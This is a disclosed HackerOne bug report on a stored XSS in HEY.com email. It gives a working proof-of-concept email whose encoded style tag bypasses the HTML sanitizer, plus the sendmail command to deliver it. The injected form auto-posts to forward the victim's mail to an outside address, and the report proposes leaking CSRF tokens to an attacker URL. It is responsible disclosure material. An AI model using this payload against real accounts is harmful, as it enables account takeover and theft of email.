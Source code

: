 # HEY.com email stored XSS

## Report Details
- **Report ID**: 982291
- **URL**: https://hackerone.com/reports/982291
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-15T03:13:48.629Z
- **Disclosed**: 2020-10-27T18:06:36.831Z

## Reporter
- **Username**: jouko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
An attacker can bypass the HEY.com HTML sanitizer and inject arbitrary unsafe HTML in emails.

To reproduce the bug you have to send raw HTML-formatted email. You can do it e.g. with the Sendmail tool on Linux.

Example email:
~~~~ plain
From: jouko@klikki.fi
To: jouko@hey.com
Subject: HackerOne test
MIME-Version: 1.0
Content-type: text/html

<style>
url(cid://\00003c\000027message-content\00003e\00003ctemplate\00003e\00003cstyle\00003exxx);
url(cid://\00003c/style\00003e\00003c/template\00003e\00003c/message-content\00003e\00003cform\000020action=/my/accounts/266986/forwardings/outbounds\000020data-controller=beacon\00003e\00003cinput\000020type=text\000020name=contact_outbound_forwarding[to_email_address]\000020value=joukop@gmail.com\00003e\00003c/form\00003exxx);
</style>
~~~~
To send the email, create a text file with the above contents. Send it with the command
~~~~ plain
/usr/sbin/sendmail -t < email.txt
~~~~


The backslashes in the <style> tag are decoded. The first \000027 confuses the HTML filter. The encoded <message-content> and <template> tags are there to escape the DOM shadowroot element. The HTML filter doesn't let you inject only closing tags, i.e. </template>, you need an opening tag first.

Finally, HTML like this is injected:
~~~~ html
<form action="/my/accounts/266986/forwardings/outbound" data-controller="beacon">
<input type=text name="contact_outbound_forwarding[to_email_address]" value="joukop@gmail.com">
</form>
~~~~
This exploits the Stimulus framework and the existing JavaScript controllers to post the form automatically. The CSRF token is inserted by the framework. This example sets up email forwarding to an external address.

This is just one way to exploit the bug. Even though plain <script> won't work in modern browsers due to the Content Security Policy, It seems likely there are ways to bypass it by using the JS frameworks (will look at this more). The account ID in this PoC has to be guesstimated or brute forced (266986).

Another example is to simply set the form ```action``` to an attacker URL. This will send the user's CSRF token to the attacker so that it could be used in a subsequent attack.

The POST request in Chrome's developer console:
{F988220}

If you want to view the email on my HEY account (jouko@hey.com) the email ID is 83625339.

## Impact

A HEY user viewing an email sent by the attacker may have their account compromised.

## Attachments
- hey.png
